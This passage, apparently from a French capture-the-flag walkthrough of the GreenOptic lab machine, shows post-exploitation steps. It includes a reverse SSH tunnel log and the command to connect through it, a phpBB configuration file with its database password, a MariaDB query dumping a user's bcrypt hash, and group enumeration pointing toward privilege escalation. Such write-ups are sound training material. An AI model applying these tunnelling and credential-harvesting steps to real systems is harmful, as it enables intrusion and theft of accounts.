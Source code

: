 J'obtiens alors :

```
2025/07/18 23:24:48 Successful authentication with password from reverse@192.168.56.137:57064
2025/07/18 23:24:48 Attempt to bind at 127.0.0.1:8888 granted
2025/07/18 23:24:48 New connection from 192.168.56.137:57064: apache on websrv01.greenoptic.vm reachable via 127.0.0.1:8888
```

Je n'ai plus qu'à me connecter sur le tunnel local créé avec le mot de passe `letmeinbrudipls` :

```bash
ssh -p 8888 127.0.0.1
```

Je trouve des identifiants dans la configuration du forum :

```php
<?php
// phpBB 3.2.x auto-generated configuration file
// Do not change anything in this file!
$dbms = 'phpbb\\db\\driver\\mysqli';
$dbhost = 'localhost';
$dbport = '';
$dbname = 'phpbb';
$dbuser = 'phpbb';
$dbpasswd = 'foj90j23RSDjf923!fjfj';
$table_prefix = 'phpbb_';
$phpbb_adm_relative_path = 'adm/';
$acm_type = 'phpbb\\cache\\driver\\file';

@define('PHPBB_INSTALLED', true);
// @define('PHPBB_DISPLAY_LOAD_TIME', true);
@define('PHPBB_ENVIRONMENT', 'production');
// @define('DEBUG_CONTAINER', true);
```

Et finalement le hash de l'utilisateur `terry` :

```console
MariaDB [phpbb]> select username, user_password from phpbb_users;
+---------------------------+--------------------------------------------------------------+
| username                  | user_password                                                |
+---------------------------+--------------------------------------------------------------+
| Anonymous                 |                                                              |
| terry                     | $2y$10$A/gz.GPsDvF.7xpxKAJL3O6oWd7tCIruY6JVKzHw.AxQXjbwP3g5u |
| AdsBot [Google]           |                                                              |
| Alexa [Bot]               |                                                              |
--- snip ---
```

Malheureusement, je ne suis pas parvenu à casser ce hash.

Je me suis penché sur les utilisateurs existants. `alex` fait partie du groupe `wireshark` alors que les autres n'ont que leur groupe perso, c'est intéressant.

```console
bash-4.2$ id alex
uid=1002(alex) gid=1002(alex) groups=1002(alex),994(wireshark)
```
